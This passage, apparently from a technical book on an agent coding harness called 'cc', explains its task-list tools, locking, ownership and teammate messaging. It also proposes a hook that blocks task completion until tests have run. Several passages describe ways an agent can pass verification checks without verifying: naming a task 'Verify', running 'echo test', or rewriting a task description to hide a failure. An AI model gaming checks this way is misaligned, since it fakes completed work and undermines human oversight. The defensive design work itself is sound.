  status: TaskUpdateStatusSchema.optional().describe(
    'New status for the task',
  ),
  addBlocks: z
    .array(z.string())
    .optional()
    .describe('Task IDs that this task blocks'),
  addBlockedBy: z
    .array(z.string())
    .optional()
    .describe('Task IDs that block this task'),
  owner: z.string().optional().describe('New owner for the task'),
  metadata: z
    .record(z.string(), z.unknown())
    .optional()
    .describe(
      'Metadata keys to merge into the task. Set a key to null to delete it.',
    ),
})
```

The `deleted` status is not a real task state -- it triggers the `deleteTask()` function and removes the task file from disk. This approach allows agents to delete tasks through the same tool they use for updates, rather than requiring a separate delete tool.

When a task is marked as `completed`, the `TaskUpdateTool` runs `executeTaskCompletedHooks()` at `src/tools/TaskUpdateTool/TaskUpdateTool.ts:L232-L265`. If any hook returns a blocking error, the status update is rejected and the task remains `in_progress`. This mechanism allows lifecycle hooks to enforce quality gates: for example, a hook could check that the task's associated tests are passing before allowing the task to be marked as completed.

The structural verification nudge at lines 333-349 checks whether the agent recently closed out a list of three or more tasks without including a verification step. If the nudge fires, the tool appends a reminder to spawn the verification agent with `subagent_type="verification"`. This nudge is gated behind the `VERIFICATION_AGENT` feature flag and the `tengu_hive_evidence` GrowthBook experiment, and only fires for the main-thread agent (not subagents).

The `TaskUpdateTool` at `src/tools/TaskUpdateTool/TaskUpdateTool.ts:L88-L406` supports updating any field on a task, including status transitions, ownership changes, and dependency management. It includes a structural verification nudge at lines 333-349: when the main-thread agent closes out a list of three or more tasks and none was a verification step, the tool appends a reminder to spawn a verification agent. This nudge addresses the common failure mode where agents skip verification after completing implementation tasks.

### Task ownership and teammate assignment

When `isAgentSwarmsEnabled()` is active, the `TaskUpdateTool` at `src/tools/TaskUpdateTool/TaskUpdateTool.ts:L188-L199` auto-sets the owner when a teammate marks a task as `in_progress` without explicitly providing an owner:

```typescript
// src/tools/TaskUpdateTool/TaskUpdateTool.ts:L188-L199 — Auto-assign owner on status transition
if (
  isAgentSwarmsEnabled() &&
  status === 'in_progress' &&
  owner === undefined &&
  !existingTask.owner
) {
  const agentName = getAgentName()
  if (agentName) {
    updates.owner = agentName
    updatedFields.push('owner')
  }
}
```

This implicit ownership assignment is a critical feature for multi-agent coordination. Without it, tasks claimed by teammates would have no owner, making it impossible for the coordinator to determine which tasks are being worked on and which are available for assignment.

When ownership changes, the tool sends a `task_assignment` notification via the teammate mailbox at `src/tools/TaskUpdateTool/TaskUpdateTool.ts:L277-L298`. The notification is a JSON message with type `task_assignment`, the task ID, subject, description, and the assigning agent's name. This notification ensures the teammate learns about new work without polling the task list, reducing latency in multi-agent coordination.

### The TaskStopTool

The `TaskStopTool` at `src/tools/TaskStopTool/TaskStopTool.ts:L39-L131` stops a running background task by task ID. It supports both `task_id` and a deprecated `shell_id` parameter for backward compatibility with the old `KillShell` tool. The tool's input schema in `src/tools/TaskStopTool/TaskStopTool.ts:L10-L19` accepts `task_id` as the primary parameter and `shell_id` as an optional fallback. The `shell_id` parameter exists because the tool was originally named `KillShell` and used shell IDs rather than task IDs. The old name is preserved as an alias at `src/tools/TaskStopTool/TaskStopTool.ts:L44` (`aliases: ['KillShell']`), ensuring that existing transcripts and SDK users that reference the `KillShell` tool name continue to work. The `validateInput()` method at `src/tools/TaskStopTool/TaskStopTool.ts:L60-L91` resolves the task ID from either parameter, then checks that the task exists and is currently running before allowing the stop. If the task is not found or is already in a terminal state, the validation fails with an appropriate error message.

The tool's prompt at `src/tools/TaskStopTool/prompt.ts` describes it as a tool that "stops a running background task by its ID," and its UI component at `src/tools/TaskStopTool/UI.tsx` renders a truncated command display with a "stopped" suffix in the terminal. The rendering logic limits command output to two lines and 160 characters in non-verbose mode, preventing a long-running command from flooding the conversation view.

### The TaskOutputTool

The `TaskOutputTool` at `src/tools/TaskOutputTool/TaskOutputTool.tsx:L30-L34` retrieves the output of a task, optionally blocking until completion. Its input schema accepts three parameters: `task_id` (required), `block` (boolean, default `true`), and `timeout` (number, default 30000ms, max 600000ms). The `block` parameter controls whether the tool waits for the task to finish before returning. When `block=true`, the `waitForTaskCompletion()` function at `src/tools/TaskOutputTool/TaskOutputTool.tsx:L118-L143` polls the task state every 100ms until the task reaches a terminal status or the timeout expires. If the timeout elapses, the function returns the current task state with a `retrieval_status` of `'timeout'`, rather than throwing an error. This non-throwing timeout design allows the caller to distinguish between "task not done yet" and "task failed."

The tool also maintains backward compatibility aliases: `AgentOutputTool` and `BashOutputTool` at `src/tools/TaskOutputTool/TaskOutputTool.tsx:L150`, reflecting its evolution from separate output tools for different task types into a unified interface. The `getTaskOutputData()` function at `src/tools/TaskOutputTool/TaskOutputTool.tsx:L60-L115` returns a unified output type that covers all task types, including exit codes for bash tasks, clean final answers for agent tasks (preferring the in-memory result over raw disk transcript), and command descriptions for remote agent tasks. The tool's name constant is defined at `src/tools/TaskOutputTool/constants.ts` as `TaskOutput`.

### The TaskGetTool and TaskListTool

The `TaskGetTool` at `src/tools/TaskGetTool/TaskGetTool.ts:L38-L128` retrieves a single task by ID, returning the full task object including blocks and blockedBy arrays. Its tool name is defined at `src/tools/TaskGetTool/constants.ts` as `TaskGet`, and its prompt at `src/tools/TaskGetTool/prompt.ts` advises agents to verify the `blockedBy` list is empty before beginning work on a task. The `TaskListTool` at `src/tools/TaskListTool/TaskListTool.ts:L33-L116` lists all tasks in the current task list, filtering out internal tasks (those with `metadata._internal` set). Its tool name is defined at `src/tools/TaskListTool/constants.ts` as `TaskList`, and its prompt at `src/tools/TaskListTool/prompt.ts` provides context-sensitive guidance including a teammate workflow section when swarms are enabled. Both tools are read-only and concurrency-safe, meaning they can be called by multiple agents simultaneously without conflicts.

The `TaskListTool` at `src/tools/TaskListTool/TaskListTool.ts:L72-L83` filters `blockedBy` references to exclude completed task IDs, because completed tasks no longer block anything:

```typescript
// src/tools/TaskListTool/TaskListTool.ts:L72-L83 — Filter blockedBy references to active tasks only
const resolvedTaskIds = new Set(
  allTasks.filter(t => t.status === 'completed').map(t => t.id),
)
const tasks = allTasks.map(task => ({
  id: task.id,
  subject: task.subject,
  status: task.status,
  owner: task.owner,
  blockedBy: task.blockedBy.filter(id => !resolvedTaskIds.has(id)),
}))
```

This filtering ensures that the agent sees only active blockers, not completed tasks that are no longer blocking. Without this filter, a task that was blocked by task #3 (now completed) would still show task #3 in its `blockedBy` list, misleading the agent into thinking the task cannot be started.

### Task list reset and the swarm lifecycle

The `resetTaskList()` function at `src/utils/tasks.ts:L147-L188` is called when a new swarm is created. It performs a complete teardown of the existing task list: deleting all task files in the directory, then writing a new `.highwatermark` file with the current highest task ID. This ensures that the next swarm starts with fresh task numbering while preserving the global ID stability guarantee.

The reset operation is destructive and irreversible. All task files are permanently deleted, and any references to those task IDs in agent messages or coordinator state become stale. This is acceptable because a swarm reset typically happens at the beginning of a new work session, before any tasks have been created. The high-water mark preservation means that if old task references do persist (e.g., in a coordinator's message history), they will not collide with new task IDs.

The `listTasks()` function at `src/utils/tasks.ts:L352-L391` reads all task files in the directory and validates each one against the Zod schema. Invalid tasks are silently excluded from the result and logged for debugging. This graceful degradation ensures that a single corrupted task file does not prevent the agent from seeing the rest of the task list.

### Task deletion and reference sweeping

The `deleteTask()` function at `src/utils/tasks.ts:L393-L441` removes a task file from disk and then sweeps all other tasks in the list to remove references to the deleted task from their `blocks` and `blockedBy` arrays. This sweeping is essential for maintaining referential integrity: without it, a task blocked by a deleted task would remain permanently blocked because the deleted task could never be completed.

The sweeping operation reads every task file, removes references to the deleted task ID, and writes the updated files back to disk. This is an O(N) operation where N is the number of tasks in the list, but it is performed without a task-list-level lock. This means that concurrent task operations could read stale `blocks`/`blockedBy` references during the sweep. The tradeoff is acceptable because stale references are self-correcting: the next task update will re-evaluate the `blockedBy` status, and the `TaskListTool` already filters out completed task IDs from `blockedBy` arrays.

### The relationship between task status and agent lifecycle

Task status transitions are closely tied to the agent lifecycle. When an agent claims a task (transitions to `in_progress`), the task's `owner` field is set to the agent's name. When the agent completes the task (transitions to `completed`), the `owner` field remains set, providing an audit trail of who completed the task. When an agent is killed or shuts down, the `unassignTeammateTasks()` function at `src/utils/tasks.ts:L818-L860` resets all of its open tasks to `pending` and clears the `owner` field, making the tasks available for reassignment.

This lifecycle coupling means that the task system must be aware of agent status changes. The `getAgentStatuses()` function at `src/utils/tasks.ts:L763-L798` determines agent idle/busy status by scanning the task list for tasks owned by each agent. An agent with no open tasks is "idle" and available for new work. An agent with at least one open task is "busy" and should not be assigned new work unless the one-task-per-session rule is relaxed.

The `DEFAULT_TASKS_MODE_TASK_LIST_ID` constant at `src/utils/tasks.ts:L862` provides a fallback task list ID for sessions that use the Tasks feature without being part of a team. This ensures that even standalone sessions have a consistent task list namespace, preventing task ID collisions between unrelated sessions.

## Edge cases and failure modes

### TOCTOU in task claiming

The original `claimTask()` function used per-task file locking, which created a TOCTOU race between checking agent busy status and claiming the task. The `claimTaskWithBusyCheck()` function at `src/utils/tasks.ts:L618-L692` fixes this by using a task-list-level lock that serializes both the busy check and the claim atomically. The per-task lock variant is still available for callers that do not need the busy check, because the task-list-level lock is more expensive (it blocks all task operations for the list, not just operations on a single task).

### Schema validation for corrupted files

The `getTask()` function at `src/utils/tasks.ts:L310-L350` validates each task file against the Zod schema on read. If validation fails, it logs the error via `logForDebugging()` and returns `null` rather than throwing. This graceful degradation ensures that a corrupted task file does not crash the entire task system. The caller (typically a tool like `TaskGetTool`) handles the `null` return by reporting "Task not found" to the agent.

### Legacy status migration

The `getTask()` function includes a temporary migration path at `src/utils/tasks.ts:L319-L332` for sessions from an older schema that used different status names (`open`, `resolved`, `planning`, `implementing`, `reviewing`, `verifying`). This migration is scoped to `USER_TYPE === 'ant'` and maps old statuses to the current tri-state model. The migration is performed in-place on the read data before Zod validation, so the on-disk file is not modified.

### Agent status based on task ownership

The `getAgentStatuses()` function at `src/utils/tasks.ts:L763-L798` determines agent idle/busy status based on task ownership. An agent is "idle" if it owns no open tasks and "busy" if it owns at least one. This status is used by the team lead to assign work to available agents. The function checks both agent name and agent ID for backwards compatibility, because older sessions may have used one or the other as the owner field.

### Unassigning tasks on teammate exit

When a teammate is killed or shuts down, the `unassignTeammateTasks()` function at `src/utils/tasks.ts:L818-L860` unassigns all open tasks and builds a notification message listing the affected tasks. The function resets each task's status to `pending` and clears the owner field, making the tasks available for reassignment. The notification message includes the task IDs and subjects, so the coordinator can quickly identify which tasks need attention.

### Structural verification gates: from prompt to code

The verification nudge in `TaskUpdateTool` at `src/tools/TaskUpdateTool/TaskUpdateTool.ts:L333-L349` is a soft gate: it appends a text reminder to the tool result when the main-thread agent completes a batch of three or more tasks without any verification step. The nudge fires only when `feature('VERIFICATION_AGENT')` and the `tengu_hive_evidence` GrowthBook experiment are both active, and only for the main-thread agent (`!context.agentId`). Its check is a regex match on task subjects (`/verif/i.test(t.subject)`), meaning an agent that names its task "Verify results" satisfies the check regardless of whether actual verification occurred.

This is the gap: the gate is advisory, not structural. A verification worker dispatched by the coordinator receives a system prompt instruction to "verify with fresh context," but nothing in the runtime prevents that worker from calling `TaskUpdate` with `status: "completed"` after producing a cursory "looks good" without running any tests. The coordinator's requirement is enforced by prompt, not by code. Under context pressure -- when the model is near its context limit and the remaining tasks look straightforward -- the verification step is the first thing skipped.

The hook system already provides the machinery to close this gap. The `PreToolUse` hook event fires before every tool call, and a command hook can emit a JSON response with `decision: "block"` to prevent the tool from executing (`src/utils/hooks.ts:L3328-L3334`). The hook receives the full `PreToolUseHookInput`, which includes `tool_name`, `tool_input` (the proposed `TaskUpdate` arguments), and `transcript_path` (the path to the session's conversation transcript, set by `createBaseHookInput()` at `src/utils/hooks.ts:L322`). This gives an external script everything it needs to inspect the agent's recent actions before allowing a status transition.

The proposed implementation uses a `PreToolUse` hook scoped to `TaskUpdate` that blocks the `pending -> completed` and `in_progress -> completed` transitions unless the transcript contains evidence of a verification step. The hook configuration in `settings.json`:

```json
// Proposed hook configuration -- not in cc source, recommended addition
// In .claude/settings.json or .claude/settings.local.json:
{
  "hooks": {
    "PreToolUse": [
      {
        "matcher": "TaskUpdate",
        "hooks": [
          {
            "type": "command",
            "command": "node /path/to/verify-before-complete.js"
          }
        ]
      }
    ]
  }
}
```

The `matcher` field ensures this hook fires only for `TaskUpdate` calls, not for every tool invocation. The hook command receives the `PreToolUseHookInput` on stdin as JSON, which includes `tool_input.status` (the proposed new status) and `transcript_path` (the filesystem path to the conversation transcript).

```typescript
// verify-before-complete.js -- Proposed implementation, not in cc source
// Reads PreToolUseHookInput from stdin, checks whether a verification
// step occurred before allowing a status transition to 'completed'.
import { readFileSync } from 'fs'
import { stdin } from 'process'

async function readStdin(): Promise<string> {
  const chunks: Buffer[] = []
  for await (const chunk of stdin) chunks.push(chunk)
  return Buffer.concat(chunks).toString('utf8')
}

const VERIFICATION_PATTERNS = [
  /\btest\b/i,    // npm test, pytest, go test, etc.
  /\bcheck\b/i,   // type-check, lint --check, etc.
  /\bverify\b/i,  // explicit verification commands
  /\blint\b/i,    // eslint, biome lint, etc.
  /\bbuild\b/i,   // tsc --noEmit, cargo build, etc.
]

async function main() {
  const input = JSON.parse(await readStdin())
  const { tool_input, transcript_path } = input

  // Only gate transitions to 'completed'
  if (tool_input.status !== 'completed') {
    process.exit(0) // Allow non-completion updates
  }

  // Read the transcript and extract recent tool calls
  let transcript: Array<{ type: string; content?: unknown }>
  try {
    transcript = JSON.parse(readFileSync(transcript_path, 'utf8'))
  } catch {
    // If the transcript is unreadable, allow the transition
    // rather than blocking all completions on a read error
    process.exit(0)
  }

  // Walk backward through the transcript to find tool_use blocks.
  // Check whether any of the last 10 tool calls was a Bash command
  // matching one of the verification patterns.
  const recentToolCalls = transcript
    .filter((msg) => msg.type === 'assistant' && Array.isArray(msg.content))
    .flatMap((msg) => (msg.content as Array<{ type: string; name?: string; input?: Record<string, unknown> }>))
    .filter((block) => block.type === 'tool_use')
    .slice(-10)

  const hasVerification = recentToolCalls.some((call) =>
    call.name === 'Bash' &&
    typeof call.input?.command === 'string' &&
    VERIFICATION_PATTERNS.some((pat) => pat.test(call.input!.command as string))
  )

  if (!hasVerification) {
    // Emit JSON to block the transition
    const response = {
      decision: 'block',
      reason:
        'Cannot mark task as completed without running verification. ' +
        'Run tests, lint, or type-check before completing this task.',
    }
    console.log(JSON.stringify(response))
    process.exit(0)
  }

  // Verification found -- allow the transition
  process.exit(0)
}

main().catch(() => process.exit(0))
```

The hook script exits with code 0 in all paths. The blocking behavior comes from the JSON output: when `decision` is `"block"`, the hook executor at `src/utils/hooks.ts:L3328-L3334` treats the result as a blocking error, which propagates through `runPreToolUseHooks()` at `src/services/tools/toolHooks.ts:L481-L497` as a `deny` permission result. The model receives the block reason as a tool result message and can act on it -- typically by running the missing verification command and retrying the `TaskUpdate`.

The following diagram shows the interception flow when a worker attempts to complete a task without verification:

```mermaid
sequenceDiagram
    participant Worker as Worker Agent
    participant TUT as TaskUpdateTool
    participant Hook as PreToolUse Hook
    participant Script as verify-before-complete.js
    participant Transcript as Session Transcript

    Worker->>TUT: TaskUpdate(taskId="3", status="completed")
    TUT->>Hook: PreToolUse fires for "TaskUpdate"
    Hook->>Script: Spawn with PreToolUseHookInput on stdin
    Script->>Transcript: Read transcript_path, extract last 10 tool calls
    alt No verification found in recent tools
        Script-->>Hook: {"decision":"block","reason":"Run tests first"}
        Hook-->>TUT: PermissionResult{behavior:"deny"}
        TUT-->>Worker: "Cannot mark task as completed without verification"
        Worker->>Worker: Runs: npm test
        Worker->>TUT: TaskUpdate(taskId="3", status="completed")
        TUT->>Hook: PreToolUse fires again
        Hook->>Script: Spawn with updated transcript
        Script->>Transcript: Finds "npm test" in recent tool calls
        Script-->>Hook: exit(0), no JSON output
        Hook-->>TUT: No hook decision (passthrough)
        TUT->>TUT: Executes TaskCompleted hooks, updates status
        TUT-->>Worker: "Updated task #3 status"
    else Verification found
        Script-->>Hook: exit(0), no JSON output
        Hook-->>TUT: No hook decision (passthrough)
        TUT-->>Worker: "Updated task #3 status"
    end
```

This approach works because of how cc layers its hook and permission systems. The `PreToolUse` hook fires before the tool's own `call()` method executes, and a `deny` result from the hook prevents the tool from running at all (`src/services/tools/toolHooks.ts:L487-L497`). The tool's internal `executeTaskCompletedHooks()` at `src/tools/TaskUpdateTool/TaskUpdateTool.ts:L235-L264` fires only after the `PreToolUse` gate passes, so the two hook layers compose cleanly: the `PreToolUse` hook enforces "did you verify?", and the `TaskCompleted` hook can enforce additional quality gates like "did CI pass?"

**What counts as verification.** The pattern list in the script above is a starting point, not a specification. Reasonable additions include: `Read` calls targeting test output files, `Grep` calls searching for error patterns in build artifacts, and tool calls to CI status APIs. The pattern list should be project-specific -- a Rust project might require `cargo test` or `cargo clippy`, while a Python project might require `pytest` or `mypy`. The hook script can read a project-level configuration file (e.g., `.claude/verification-patterns.json`) to customize the patterns.

**Limitations.** This gate is a heuristic, not a proof. A confused model could run `echo test` to satisfy the check, or a malicious prompt injection could instruct the model to run a no-op command matching the pattern. The defense is probabilistic: it catches the dominant failure mode where the model skips verification due to context pressure or optimization shortcuts, not the adversarial case where the model actively tries to circumvent the gate. In practice, the context-pressure skip is responsible for the vast majority of verification failures in multi-agent swarms. The adversarial case requires a different class of defense (output validation, human review) that is outside the scope of the hook system.

The key insight is that moving from a prompt-based nudge to a structural hook transforms verification from a suggestion the model can ignore into a gate the model must satisfy. The model still chooses how to satisfy the gate -- it picks which tests to run, which checks to perform -- but it cannot skip the category entirely. This matches HER's principle that harness constraints should be implemented in code rather than in prompt text (Section 12.3), because prompt-based constraints degrade under context pressure while code-based constraints remain constant.

## Where cc diverges from the published pattern

### JSON vs Markdown for task lists

HER Section 8.2 notes a debate between JSON and Markdown for task persistence. Multiple sources favor JSON with boolean pass/fail and append-only constraints, because JSON is machine-parseable and boolean status prevents ambiguous partial states. cc's implementation aligns with the JSON camp: tasks are Zod-validated JSON files with a strict tri-state status model. However, cc does not enforce the append-only constraint that HER recommends. The `TaskUpdateTool` allows updating any field on a task, including `subject` and `description`. An agent could edit away a failure by changing the task description to match what was actually done.

### No explicit progress file

HER Section 8.2 prescribes three files for state persistence: `tasks.json`, `progress.txt`, and `AGENTS.md`. cc implements only the structured task list. The human-readable progress notes and discovered-patterns files are not part of the task system. The `CLAUDE.md` system partially covers the `AGENTS.md` role, but there is no `progress.txt` equivalent that captures the agent's learnings and reasoning in a human-readable format.

### One-task-per-session not enforced at the harness level

HER Section 10.1 describes the one-task-per-session rule as the single most impactful rule for preventing context exhaustion and scope creep. cc implements this check in `claimTaskWithBusyCheck()`, but only when the `checkAgentBusy` option is explicitly set to `true`. The default `claimTask()` path does not enforce this rule. Agents can claim multiple tasks simultaneously unless the caller opts into the busy check.

### Task file format and Zod validation

Each task is persisted as a pretty-printed JSON file at `~/.claude/tasks/<taskListId>/<taskId>.json`. The `jsonStringify(task, null, 2)` call at `src/utils/tasks.ts:L305` produces human-readable output that can be inspected with standard Unix tools (`cat`, `jq`). This is a deliberate design choice: task files are part of the agent's observable state, and making them easy to inspect helps with debugging and auditing.

The Zod schema validation in `getTask()` at `src/utils/tasks.ts:L310-L350` serves as a corruption detection layer. If a task file is manually edited and the edit introduces an invalid field value (e.g., a status of `"in_review"` instead of `"in_progress"`), the validation will catch the error and return `null`. The `logForDebugging()` call records the validation failure for post-mortem analysis, but the caller sees "Task not found," preventing the corruption from propagating into the agent's reasoning.

The `sanitizePathComponent()` function at `src/utils/tasks.ts:L217-L219` strips path traversal characters from the task list ID before constructing filesystem paths. This prevents a malicious or malformed task list ID from escaping the tasks directory (e.g., a task list ID of `../../etc` would be sanitized to an empty string, preventing directory traversal). This is a defense-in-depth measure: the task list ID is typically derived from the team name or session ID, which are already validated upstream, but the sanitization ensures that even if upstream validation fails, the filesystem is not compromised.

The `notifyTasksUpdated()` function at `src/utils/tasks.ts:L61-L67` fires after every mutation operation (create, update, delete, reset). The signal-based notification system uses `createSignal()` to implement a lightweight pub/sub pattern where UI components subscribe to task list changes. The try/catch wrapper around `tasksUpdated.emit()` ensures that listener failures never propagate to callers -- if a UI component throws during a notification, the mutation has already succeeded and the error is silently ignored. This separation of mutation and notification is essential for maintaining system reliability when the UI is in an inconsistent state (e.g., during rapid scrolling or component unmounting).

## Developer takeaways for building a long-running agent

1. **Use filesystem locking for multi-process coordination.** The task system's lock-then-read-then-write pattern is essential when multiple agent processes share the same task directory. Without locking, concurrent `createTask` calls would assign duplicate IDs. The retry configuration (30 retries with exponential backoff) provides enough headroom for 10 concurrent agents.

2. **Prevent ID reuse with a high water mark.** Even after tasks are deleted, their IDs must never be reused. A separate `.highwatermark` file tracks the maximum ID ever assigned, ensuring that references to old task IDs are never confused with new tasks. This is particularly important in multi-agent systems where task IDs are communicated between agents.

3. **Enforce one-task-per-session at the harness level.** The busy check in `claimTaskWithBusyCheck()` is opt-in rather than mandatory. For a production system, this check should be the default, because agents that claim multiple tasks tend to context-exhaust before completing any of them.

4. **Graceful degradation for corrupted state.** The task system validates on read and returns `null` for corrupted files rather than throwing. This pattern is critical for long-running agents: a single corrupted file should not bring down the entire coordination system.

5. **Auto-assign ownership on status transitions.** The `TaskUpdateTool` automatically sets the owner when a teammate marks a task as `in_progress`. This implicit ownership tracking reduces the cognitive load on agents and ensures the task list accurately reflects who is working on what.

6. **Notify on ownership changes.** When a task is assigned to a teammate, the system sends a `task_assignment` message via the mailbox. This notification ensures the teammate learns about new work without polling the task list, reducing latency in multi-agent coordination.
# Teammates and In-Process Collaboration

## Overview

Teammates are cc's mechanism for running multiple agents within the same process, coordinated through a mailbox-based messaging system. Unlike the forked subagents of Chapter 19 (which run in separate processes with isolated memory), in-process teammates share the same `AppState` and communicate through the `SendMessageTool` (917 LOC) and the session hooks system (`src/utils/hooks/sessionHooks.ts`, 447 LOC). This chapter examines the teammate communication protocol, the mailbox routing system, the structured message types (including shutdown requests and plan approvals), and the session hook infrastructure that enables in-process collaboration.

The in-process tier is the first of HER's three tiers of multi-agent orchestration (Section 9.1): same process, isolated context windows. It is the cheapest tier in terms of resource overhead because no new processes are spawned, but it requires careful coordination to prevent context leakage between teammates. The key architectural insight is that in-process teammates are managed through `AppState` -- they are tasks in the task registry, with their own `AbortController`, message queue, and progress tracker. This means the same infrastructure that supports background agents also supports teammates, reducing code duplication and ensuring consistent behavior.

## Data structures and contracts

### SendMessageTool input schema

The `SendMessageTool` input schema at `src/tools/SendMessageTool/SendMessageTool.ts:L67-L88` supports two modes: plain text messages and structured protocol messages:

```typescript
// src/tools/SendMessageTool/SendMessageTool.ts:L67-L87 — Input schema with multi-mode addressing
const inputSchema = lazySchema(() =>
  z.object({
    to: z
      .string()
      .describe(
        feature('UDS_INBOX')
          ? 'Recipient: teammate name, "*" for broadcast, "uds:<socket-path>" for a local peer, or "bridge:<session-id>" for a Remote Control peer (use ListPeers to discover)'
          : 'Recipient: teammate name, or "*" for broadcast to all teammates',
      ),
    summary: z
      .string()
      .optional()
      .describe(
        'A 5-10 word summary shown as a preview in the UI (required when message is a string)',
      ),
    message: z.union([
      z.string().describe('Plain text message content'),
      StructuredMessage(),
    ]),
  }),
)
```

The `to` field supports four addressing schemes: teammate name, wildcard broadcast (`*`), Unix domain socket (`uds:`), and cross-session bridge (`bridge:`). The UDS and bridge schemes are gated behind the `UDS_INBOX` feature flag. The `summary` field is required for plain text messages and displayed in the UI as a preview, allowing users to scan message traffic without opening each one.

### Structured message types

The `StructuredMessage` discriminated union at `src/tools/SendMessageTool/SendMessageTool.ts:L46-L65` defines three protocol-level message types:

```typescript
// src/tools/SendMessageTool/SendMessageTool.ts:L46-L65 — Protocol-level structured messages
const StructuredMessage = lazySchema(() =>
  z.discriminatedUnion('type', [
    z.object({
      type: z.literal('shutdown_request'),
      reason: z.string().optional(),
    }),
    z.object({
      type: z.literal('shutdown_response'),
      request_id: z.string(),
      approve: semanticBoolean(),
      reason: z.string().optional(),
    }),
    z.object({
      type: z.literal('plan_approval_response'),
      request_id: z.string(),
      approve: semanticBoolean(),
      feedback: z.string().optional(),
    }),
  ]),
)
```

These structured messages implement HER's handoff protocol (Section 11.5). The shutdown protocol enables graceful team-member termination with an explicit request-response handshake. The plan-approval protocol implements the checkpoint-review pattern where the team lead must approve a teammate's implementation plan before execution proceeds. Both protocols are request-response: the sender includes a `request_id` that the receiver echoes back, enabling the sender to correlate responses with requests.

### Message routing output types

The output types at `src/tools/SendMessageTool/SendMessageTool.ts:L92-L125` distinguish between four result shapes based on the type of message sent. The `MessageRouting` type at `src/tools/SendMessageTool/SendMessageTool.ts:L92-L99` carries sender/target names, colors, and summary for UI rendering:

```typescript
// src/tools/SendMessageTool/SendMessageTool.ts:L92-L99 — Routing metadata for UI rendering
export type MessageRouting = {
  sender: string
  senderColor?: string
  target: string
  targetColor?: string
  summary?: string
  content?: string
}
```

The `senderColor` and `targetColor` fields are used by the terminal UI to visually distinguish messages from different teammates. Each teammate is assigned a color when it joins the team, and this color is propagated through the routing metadata so the UI can render messages with consistent visual identity.

### Session hook types

The session hooks system at `src/utils/hooks/sessionHooks.ts:L14-L46` defines two hook categories for in-process communication. Function hooks execute TypeScript callbacks in-memory for validation, while command hooks run external processes. Both are session-scoped and cleared when the session ends:

```typescript
// src/utils/hooks/sessionHooks.ts:L9-L46 — Hook types and session store
type OnHookSuccess = (
  hook: HookCommand | FunctionHook,
  result: AggregatedHookResult,
) => void

export type FunctionHookCallback = (
  messages: Message[],
  signal?: AbortSignal,
) => boolean | Promise<boolean>

export type FunctionHook = {
  type: 'function'
  id?: string
  timeout?: number
  callback: FunctionHookCallback
  errorMessage: string
  statusMessage?: string
}

type SessionHookMatcher = {
  matcher: string
  skillRoot?: string
  hooks: Array<{
    hook: HookCommand | FunctionHook
    onHookSuccess?: OnHookSuccess
  }>
}

export type SessionStore = {
  hooks: {
    [event in HookEvent]?: SessionHookMatcher[]
  }
}
```

Function hooks are particularly useful for in-process collaboration because they execute synchronously in the same event loop as the agent, providing immediate validation without the latency of spawning an external process. The `timeout` field (default 5000ms) prevents a misbehaving hook from blocking the agent indefinitely.

### SessionHooksState with Map optimization

The `SessionHooksState` type at `src/utils/hooks/sessionHooks.ts:L48-L62` uses a `Map` rather than a `Record` for a performance-critical reason. The JSDoc comment on the type explains the full rationale:

```typescript
// src/utils/hooks/sessionHooks.ts:L48-L62 — Map-based state for O(1) mutation
/**
 * Map (not Record) so .set/.delete don't change the container's identity.
 * Mutator functions mutate the Map and return prev unchanged, letting
 * store.ts's Object.is(next, prev) check short-circuit and skip listener
 * notification. Session hooks are ephemeral per-agent runtime callbacks,
 * never reactively read (only getAppState() snapshots in the query loop).
 * Same pattern as agentControllers on LocalWorkflowTaskState.
 *
 * This matters under high-concurrency workflows: parallel() with N
 * schema-mode agents fires N addFunctionHook calls in one synchronous
 * tick. With a Record + spread, each call cost O(N) to copy the growing
 * map (O(N^2) total) plus fired all ~30 store listeners. With Map: .set()
 * is O(1), return prev means zero listener fires.
 */
export type SessionHooksState = Map<string, SessionStore>
```

The comment explains: with a `Record` and spread, each `addFunctionHook` call costs O(N) to copy the growing map (O(N^2) total for N parallel agents). With `Map`, `.set()` is O(1) and returning `prev` unchanged means zero listener notifications. This matters under high-concurrency workflows where parallel schema-mode agents fire N hook additions in one synchronous tick. The `Map` identity is preserved across mutations, so `Object.is(next, prev)` checks in the state store short-circuit and skip listener notification entirely.

## Control flow

### Message routing to in-process agents

When a plain-text message is sent to a specific teammate, the `SendMessageTool.call()` method at `src/tools/SendMessageTool/SendMessageTool.ts:L802-L873` routes it through the in-process task registry before falling through to mailbox-based delivery. The routing follows a priority chain:

1. Check `agentNameRegistry` for the target name.
2. If the target has a running task, queue the message.
3. If the target has a stopped task, auto-resume it.
4. If the target has no task in state, attempt to resume from disk transcript.
5. If all else fails, fall through to mailbox delivery.

```mermaid
sequenceDiagram
    participant Sender as Sending Agent
    participant SendMessageTool
    participant TaskRegistry as AppState.tasks
    participant Mailbox as Teammate Mailbox
    participant Target as Target Agent

    Sender->>SendMessageTool: SendMessage(to="alice", message="Fix the bug")
    SendMessageTool->>TaskRegistry: Look up agentNameRegistry["alice"]
    alt Task is running
        SendMessageTool->>TaskRegistry: queuePendingMessage(aliceId, message)
        TaskRegistry-->>Target: Message delivered at next tool round
    else Task is stopped
        SendMessageTool->>SendMessageTool: resumeAgentBackground(aliceId, prompt)
        SendMessageTool-->>Target: Agent resumed with message
    else Task evicted from state
        SendMessageTool->>SendMessageTool: resumeAgentBackground from disk transcript
        SendMessageTool-->>Target: Agent resumed from transcript
    else Not in task registry
        SendMessageTool->>Mailbox: writeToMailbox("alice", message)
        Mailbox-->>Target: Mailbox polled on next turn
    end
```

This priority chain ensures that messages to in-process teammates are delivered as quickly as possible. The in-process queue is faster than mailbox delivery because it bypasses the filesystem entirely. However, mailbox delivery serves as a reliable fallback when the teammate's task is not in the current process's state.

### Running agent: queue pending message

When the target agent is running, `queuePendingMessage()` at `src/tasks/LocalAgentTask/LocalAgentTask.tsx:L162-L167` adds the message to the task's `pendingMessages` array, which is drained at tool-round boundaries:

```typescript
// src/tasks/LocalAgentTask/LocalAgentTask.tsx:L162-L167 — Queue message for delivery at tool-round boundary
export function queuePendingMessage(
  taskId: string,
  msg: string,
  setAppState: (f: (prev: AppState) => AppState) => void,
): void {
  updateTaskState<LocalAgentTaskState>(taskId, setAppState, task => ({
    ...task,
    pendingMessages: [...task.pendingMessages, msg],
  }))
}
```

This queue-and-drain pattern ensures that messages are not injected mid-tool-execution, which could cause race conditions in the query loop. The `drainPendingMessages()` function at `src/tasks/LocalAgentTask/LocalAgentTask.tsx:L181-L192` is called between tool rounds to flush the queue:

```typescript
// src/tasks/LocalAgentTask/LocalAgentTask.tsx:L181-L192 — Drain pending messages between tool rounds
